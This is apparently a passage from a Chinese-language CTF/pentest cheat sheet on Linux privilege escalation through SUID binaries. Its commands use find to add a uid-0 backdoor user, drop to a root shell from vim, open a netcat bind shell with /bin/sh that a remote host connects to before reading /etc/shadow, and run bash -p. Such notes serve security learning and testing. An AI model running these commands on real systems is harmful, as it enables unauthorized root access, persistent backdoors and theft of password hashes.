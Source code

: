 #### 以`find`提权为例

find ./ -type f -exec id \;

![](images/ctf-2021-09-26-16-32-52.png)

> Linux密码生成规则 https://blog.csdn.net/jiajiren11/article/details/80376371

```shell
# 生成用户密码，密码值为ezpasswd内容，abcdefg为salt值
openssl passwd -1 -salt 'abcdefg' 'ezpasswd'
# 得到值
$1$abcdefg$Sh/N2Oieg5Wrh7qT2oIZ3/
# 添加用户 -o 表示可以重复id
find /etc/passwd -type f -exec useradd -u 0 -g 0 -p \$1\$abcdefg\$Sh/N2Oieg5Wrh7qT2oIZ3/ -o test999 \;
```

#### Vim

Vim是Linux环境下的一款文件编辑器。但是，如果以SUID运行的话，它会继承root用户的权限，因此可以读取系统上的所有文件。

```
vim.tiny
# Press ESC key
:set shell=/bin/sh
:shell
```

#### Netcat

大部分Linux操作系统都安装了netcat，因此也可以被利用来将权限提升至root。

```
find pentestlab -exec netcat -lvp 5555 -e /bin/sh \;
连接上去就会直接获取到一个Root权限的shell。
netcat 192.168.1.189 5555
id
cat /etc/shadow
```

#### Bash

```
bash -p
bash-3.2# id
uid=1002(service) gid=1002(service) euid=0(root) groups=1002(service)
```

#### More
